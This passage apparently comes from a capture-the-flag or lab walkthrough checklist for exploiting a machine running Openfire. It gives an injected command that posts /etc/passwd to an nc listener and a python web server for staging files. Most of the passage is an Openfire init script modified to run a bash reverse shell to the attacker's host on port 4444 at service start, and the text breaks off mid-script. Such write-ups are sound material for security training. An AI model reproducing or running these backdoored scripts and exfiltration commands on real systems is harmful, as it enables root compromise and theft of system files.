 - [ ] Read `/etc/passwd` and send it as a POST request to the `nc` listener on your Kali Machine
```
@call abc -o /tmp/dummy -o /tmp/test.txt -X GET http://192.168.xxx.xxx/test.txt -o /tmp/dummy
```

## Privilege Escalation

- [ ] Set up a `python` webserver on your Kali Machine
```
python3 -m http.server 80
```

- [ ] Create `openfire.txt` and edit the reverse shell to be your IP address and listening port on your Kali Machine
```
#!/bin/sh
#
# openfire      Stops and starts the Openfire XMPP service.
#
# chkconfig: 2345 99 1
# description: Openfire is an XMPP server, which is a server that facilitates \
#              XML based communication, such as chat.
# config: /opt/openfire/conf/openfire.xml
# config: /etc/sysconfig/openfire
# pidfile: /var/run/openfire.pid
#
# This script has currently been tested on Redhat, CentOS, and Fedora  based
# systems.
#
 
#####
# Begin setup work
#####
 
# Initialization
PATH="/sbin:/bin:/usr/bin:/usr/sbin"
RETVAL=0
 
# Check that we are root ... so non-root users stop here.
if [ "`id -u`" != 0 ]; then
        echo $0 must be run as root
        exit 1
fi
 
su -s /bin/sh -c "bash -i >& /dev/tcp/192.168.xxx.xxx/4444 0>&1"
 
# Get config.
[ -f "/etc/sysconfig/openfire" ] && . /etc/sysconfig/openfire
if [ -f "/etc/init.d/functions" ]; then
  FUNCTIONS_FOUND=true
  . /etc/init.d/functions
fi
 
# If openfire user is not set in sysconfig, set to daemon.
[ -z "$OPENFIRE_USER" ] && OPENFIRE_USER="daemon"
 
# If pid file path is not set in sysconfig, set to /var/run/openfire.pid.
[ -z "$OPENFIRE_PIDFILE" ] && OPENFIRE_PIDFILE="/var/run/openfire.pid"
 
# -----------------------------------------------------------------
 
# If a openfire home variable has not been specified, try to determine it.
if [ -z "$OPENFIRE_HOME" -o ! -d "$OPENFIRE_HOME" ]; then
        if [ -d "/usr/share/openfire" ]; then
                OPENFIRE_HOME="/usr/share/openfire"
```